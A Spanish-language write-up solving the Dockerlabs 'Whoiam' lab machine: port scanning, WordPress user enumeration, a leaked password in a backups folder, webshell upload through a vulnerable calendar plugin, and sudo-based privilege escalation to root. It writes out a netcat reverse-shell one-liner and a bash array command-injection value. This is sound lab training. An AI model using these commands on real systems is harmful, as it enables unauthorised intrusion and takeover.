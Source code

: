 
Hola otra vez, vamos a resolver otra máquina de [Dockerlabs](https://dockerlabs.es/#/), en este caso la máquina se llama Whoiam y está incluida en la categoría fácil de Dockerlabs de [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg).

![alt text](images/image.png)

---------------------------------------------------------------------------------------------------------------------------------------------------

Sin más que añadir vamos a ello, como siempre empezaremos por descargar la máquina y realizar su instalación, recordad que funcionan mediante docker por lo que estaremos creando un contenedor en nuestra máquina local en el que se almacenará la máquina víctima.

![alt text](images/image-1.png)

Empezaremos realizando un ping a la máquina para verificar su correcto funcionamiento, al hacerlo vemos que tiene un TTL de 64, lo que significa que la máquina objetivo usa un sistema operativo Linux.

![alt text](images/image-2.png)

Como vemos, la máquina funciona correctamente y podemos empezar con el proceso de enumeración de la misma, vamos a ello.

# Enumeración

Lo primero que haremos para enumerar esta máquina será realizar un escaneo básico de puertos para identificar cuáles están abiertos.

```sudo nmap -p- --min-rate 5000 172.18.0.2 -Pn -n -oN escaneo```

![alt text](images/image-3.png)

Sólo tenemos disponible el puerto 80 haciendo referencia a un servicio web, vamos a lanzar un escaneo más exhaustivo a este puerto en concreto para tratar de enumerar las versiones y lanzar unos scripts básicos de reconocimiento.

``sudo nmap -p 80 -sCV 172.18.0.2 -Pn -n -oN escaneoSC``

![alt text](images/image-4.png)

En este output podemos ver que dentro del puerto 80 encontraremos un Wordpress. Vamos a echarle un ojo.

![alt text](images/image-5.png)

Nada demasiado interesante por aquí, vamos a fuzzear en busca de directorios y archivos que no estén visibles en un primer contacto.

![alt text](images/image-6.png)

Gracias a este escaneo encontramos el panel de login de Wordpress, vamos a usar WPscan para tratar de enumerar los usuarios disponibles.

![alt text](images/image-7.png)

![alt text](images/image-8.png)

Parece que este escaneo encuentra dos usuarios que existen dentro del sistema, vamos a probarlos en el panel de login ya que Wordpress nos permite confirmar la existencia de los usuarios al tratar de iniciar sesión diciéndonos si existen o no.

![alt text](images/image-9.png)

![alt text](images/image-10.png)

Genial, confirmamos la existencia de ambos usuarios gracias a esta funcionalidad. Lanzamos un ataque de fuerza bruta al panel de login con hydra pero no da los resultados esperados por lo que tendremos que seguir enumerando.

Volviendo al fuzzeo que realizamos previamente vemos que se encontró un directorio llamado backups, vamos a ver qué encontramos en este.

![alt text](images/image-11.png)

Parece que hay un archivo comprimido, vamos a descargarlo a nuestra máquina local para ver su contenido.

![alt text](images/image-12.png)

Tenemos una contraseña que posiblemente sea válida para el usuario developer, vamos a tratar de usarla para hacer login en el panel de Wordpress.

![alt text](images/image-13.png)

Genial, conseguimos entrar con la contraseña encontrada, vamos a buscar la forma de escalar esto para conseguir un primer acceso al sistema.

# Explotación

Dando una vuelta por el dashboard nos encontramos con la pestaña de plugins y uno en concreto llama nuestra atención, además podemos ver su versión. Vale la pena investigar un poco acerca del mismo.

![alt text](images/image-14.png)

El plugin en concreto es Modern Events Calendar Lite y vamos a investigar un poco acerca del mismo ya que el escaneo con WPscan nos avisaba de que el mismo estaba desactualizado.

![alt text](images/image-15.png)

Bien, parece que esta versión en concreto permite la subida de archivos en PHP ya que el mismo no valida los archivos que se suben y podríamos subir una webshell sin que nada nos detuviese, vamos a intentar explotar esta vulnerabilidad para obtener nuestro acceso al sistema.

![alt text](images/image-16.png)

![alt text](images/image-18.png)

Muy bien, hemos conseguido explotar la vulnerabilidad y hemos subido una webshell en la ruta que se nos indica, vamos a acceder a ella para tratar de enviar la conexión a nuestra máquina atacante y de esta forma obtener una conexión más estable y cómoda.

![alt text](images/image-19.png)

Nos ponemos en escucha en nuestra máquina atacante y estamos listos para enviar la conexión.

``rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PUERTO >/tmp/f``

![alt text](images/image-20.png)

Probamos varios payloads y el último de ellos funciona correctamente otorgándonos una shell directamente en nuestra máquina atacante permitiendo movernos de una forma mucho más cómoda.

![alt text](images/image-21.png)

# Post-Explotación

Una vez dentro de la máquina listamos los usuarios que están disponibles en el directorio home ya que son los que nos interesan para aumentar nuestros privilegios con el objetivo de lograr convertirnos en root. Probamos la contraseña que encontramos previamente con ambos por si diera la casualidad de que se reutilizasen las credenciales, no parece ser el caso.

![alt text](images/image-22.png)

Listamos nuestros permisos subo y parece que podemos usar el comando sind como el usuario rafa, vamos a investigar para saber cómo usar esto a nuestro favor para elevar privilegios.

![alt text](images/image-23.png)

![alt text](images/image-24.png)

Eso es, somos el usuario rafa y podemos enumerar de nuevo en busca de permisos que nos permitan seguir elevanto los privilegios.

![alt text](images/image-25.png)

El usuario rafa puede usar sudo como el usuario ruben para ejecutar el binario debugfs, volvamos a investigar para seguir escalando.

![alt text](images/image-26.png)

![alt text](images/image-27.png)

¡Bien! Conseguimos convertirnos en el usuario ruben, vamos a repetir de nuevo el proceso anterior.

![alt text](images/image-28.png)

Este usuario en concreto puede ejecutar un script que se encuentra en el directorio /opt, comprobamos que no tenemos permisos de escritura dentro del mismo por lo que tendremos que abusar de esto ejecutando el script tal y como está. Vamos a hacer una investigación para saber cómo podríamos hacer esto.

![alt text](images/image-29.png)

Tras una batalla contra el script y con la ayuda de la IA para comprender el mismo llego a la conclusión de que la forma de explotar esto sería comenzando la definición de un array en el que se incluya como contenido $(/bin/bash>&2) para ejecutar una shell y enviar la salida de error a la salida estándar para luego cerrar la definición de este array y añadir el número que necsitamos para que el script no genere un error de sintaxis inmediato, lo cual permitirá que nuestra shell se mantenga activa. 

Después de este episodio de combate para escalar privilegios logramos converirnos en root y obtenemos el control total sobre el sistema pudiendo dar por completada la máquina. Espero que os haya gustado mucho y nos vemos en la siguiente. :)








